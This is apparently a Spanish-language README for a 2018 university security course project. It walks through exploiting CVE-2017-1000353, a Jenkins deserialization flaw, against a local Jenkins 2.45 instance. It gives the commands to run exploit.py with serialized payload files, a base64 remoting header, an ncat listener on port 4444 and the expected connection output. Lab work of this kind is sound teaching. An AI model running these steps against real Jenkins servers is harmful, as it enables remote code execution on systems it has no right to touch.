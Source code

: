 # Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java JDK (Debe ser 8 o menos, https://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
 
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd siutn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    - Primero debemos asegurarnos que la versión de Java sea la correcta:
      ```
      $ java -version
        java version "1.8.0_144"
        Java(TM) SE Runtime Environment (build 1.8.0_144-b01)
        Java HotSpot(TM) 64-Bit Server VM (build 25.144-b01, mixed mode)
      ```
    - En caso que no, descargamos el JDK 8 del link provisto y ejecutamos:
    
      ```export JAVA_HOME=`/usr/libexec/java_home -v 1.8` ```
    
    - Luego de tener correctamente seteado el JDK de Java, ejecutamos:
    
      ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)

4. Iniciar una sesión de Ncat para escuchar en el puerto 4444 (o el que deseen):

  ``` Windows: ncat -v -l -p 4444```

  ``` OSX/Linux: netcat -v -l -p 4444```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:

  ```Windows: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_win.bin```

  ```OSX/Linux: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_mac_linux.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente

```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```

y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```
